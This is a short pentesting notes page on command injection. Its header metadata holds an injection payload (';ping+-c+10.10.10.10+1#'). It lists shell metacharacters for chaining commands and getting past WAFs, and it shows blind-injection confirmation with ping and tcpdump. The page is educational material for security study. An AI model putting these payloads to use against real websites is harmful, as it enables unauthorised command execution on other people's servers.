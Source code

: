 ```yaml
---
description: ;ping+-c+10.10.10.10+1#
---
```


# Command Injection

Command Injection is a critical vulnerability that results in attackers being able to inject commands on a machine form the website. 

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption><p><em>Taken from PortSwigger Web Security Academy</em></p></figcaption></figure>

## Exploitation

First, one has to understand how special characters are processed by websites and shells:

{% code overflow="wrap" %}
```bash
# --> comment
$() --> subshell expression in bash that evaluates the text inside bracket as commands 
; --> used to chain commands together e.g. id ; whoami would execute 2 commands at once
| --> pipe used to pass output from one command to another e.g. whoami | echo
& --> Bitwise AND Operator
&& --> Logical AND Operator
|| --> Logical OR Operator
%0a --> URI encoded newline character (\n)
> --> redirect standard output to a file # ./find_users > users.txt
< --> redirect file contents to an executable # ./echo_name < names.txt
${IFS} --> means " " or space character, useful when there is strict WAF checking
```
{% endcode %}

There are tons of payload cheatsheets online, and the one at Hacktricks is very good. 

This vulnerability is quite easy confirm:

<figure><img src="../../.gitbook/assets/image (3767).png" alt=""><figcaption><p><em>Look at Cmd parameter</em></p></figcaption></figure>

## Blind Injection

Sometimes, the output of commands is not displayed. One can use the `ping` command to send a packet to our machine, and `tcpdump` can be used to listen for ICMP packets.

```bash
ping -c 1 10.10.10.10
# sends 1 ICMP packet
sudo tcpdump -i <INTERFACE> icmp
```